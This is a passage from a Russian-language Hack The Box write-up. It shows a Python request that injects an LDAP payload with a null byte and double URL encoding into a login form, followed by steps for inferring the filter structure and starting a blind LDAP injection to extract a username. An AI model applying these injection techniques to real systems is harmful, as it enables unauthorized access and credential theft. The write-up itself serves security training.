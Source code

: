 ```python
# Данные для POST-запроса (библиотека requests закодирует значения повторно => получится Double URL Encoding)
data = {
	'inputUsername': inject + null_byte,
	'inputOTP': '31337'
}

# Отправляем запрос
resp = requests.post(URL, data=data)

# Регулярками вытаскиваем ответ сервера
match = re.search(r'<div class="col-sm-10">(.*?)</div>', resp.text, re.DOTALL)

# И выводим его на экран
print(match.group(1).strip())
```

Теперь нам предстоит найти количество скобок, необходимое для того, чтобы измененный LDAP-запрос оказался «правильным». Начнем с одной, добавляя в конце нулевой символ для отбрасывания оставшийся части оригинального запроса. Потом попробуем две, затем — три.

[![parentheses.png](/assets/images/htb/machines/ctf/parentheses.png)](/assets/images/htb/machines/ctf/parentheses.png)
{:.center-image}

На трех скобках сервер сообщил, что не знает такого пользователя, поэтому делаем вывод, что, на самом деле, структура оригинального LDAP-запрос имеет примерно такой вид.

```
(&
	(&
		(key1=value1)
		(key2=value2)
		(key3=value3)
	)
	(&
		(key4=value4)
		...
	)
	...
)
```

Отлично! Мы выяснили, что форма `/login.php` уязвима к LDAP-инъекции и сделали предположение о структуре LDAP-запроса. Используем это для стилинга авторизационных данных.

### Дампим юзернейм

Чтобы вытащить из базы имя пользователя, будем пользоваться символом `*`, который успешно обрабатывыается сервером. Сделаем предположение, что юзернейм начинается, например, с буквы «a», тогда поведение формы при обработке запроса вида `a*` позволит определить, верно ли наше предположение. Так как мы можем судить о корректности наших суждений только по возвращаемым сообщениям об ошибках, то на лицо классическая инъекция «вслепую» или Blind LDAP-инъекция.
